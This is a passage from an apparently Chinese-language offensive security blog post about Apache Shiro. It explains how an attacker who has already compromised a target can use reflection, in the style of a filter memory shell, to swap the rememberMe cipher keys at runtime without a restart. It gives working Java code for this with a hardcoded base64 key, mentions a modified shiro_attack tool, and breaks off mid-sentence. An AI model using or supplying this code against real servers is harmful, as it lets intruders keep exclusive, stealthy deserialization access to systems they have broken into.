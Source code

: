 - - -

去**AbstractRememberMeManager**源码可以发现如果开发人员没有配置**setCipherKey**方法的，encryptionCipherKey 和 decryptionCipherKey 是和 DEFAULT\_CIPHER\_KEY\_BYTES 是一个值。所以其实就算前面我们修改成功 DEFAULT\_CIPHER\_KEY\_BYTES 的值也是没有用，本质得修改 encryptionCipherKey 和 decryptionCipherKey 的值。

### [0x02 修改思路](#toc_0x02)

我们得出得修改 decryptionCipherKey 和 encryptionCipherKey 的值，目前有两种解决方案：

1.  拿下目标之后直接对目标的配置文件就行修改，然后重启服务。
2.  利用 filter 内存马思维去修改 shiroFilterFactoryBean 中的 encryptionCipherKey 和 decryptionCipherKey 的值。

显然重启服务是一个不可取操作，那么只剩下 filter 内存马方法。这里直接给出解决代码：

```plain
    @RequestMapping("/say")
    public String HelloSay(HttpServletRequest request , HttpServletResponse response) throws Exception {
        ServletContext context = request.getServletContext();
        Object obj = context.getFilterRegistration("shiroFilterFactoryBean");
        Field field = obj.getClass().getDeclaredField("filterDef");
        field.setAccessible(true);
        obj = field.get(obj);
        field = obj.getClass().getDeclaredField("filter");
        field.setAccessible(true);
        obj = field.get(obj);
        field = obj.getClass().getSuperclass().getDeclaredField("securityManager");
        field.setAccessible(true);
        obj = field.get(obj);
        field = obj.getClass().getSuperclass().getDeclaredField("rememberMeManager");
        field.setAccessible(true);
        obj = field.get(obj);
        java.lang.reflect.Method setEncryptionCipherKey = obj.getClass().getSuperclass().getDeclaredMethod("setEncryptionCipherKey", new Class[]{byte[].class});
        byte[] bytes = java.util.Base64.getDecoder().decode("3AvVhmFLUs0KTA3Kprsdag==");
//                    java.util.Base64.getEncoder().encode(bytes);
        setEncryptionCipherKey.invoke(obj, new Object[]{bytes});
        java.lang.reflect.Method setDecryptionCipherKey = obj.getClass().getSuperclass().getDeclaredMethod("setDecryptionCipherKey", new Class[]{byte[].class});
        setDecryptionCipherKey.invoke(obj, new Object[]{bytes});
//        response.
//        response.getClas
        response.getWriter().println("ok");
        response.getWriter().flush();
        response.getWriter().close();
        return "ok";
    }
```

实际本地测试效果，这里使用笔者自己魔改的 shiro\_attack 工具进行实际测试：

这是修改之前的使用配置 key(4AvVhmFLUs0KTA3Kprsdag==) 的攻击效果：
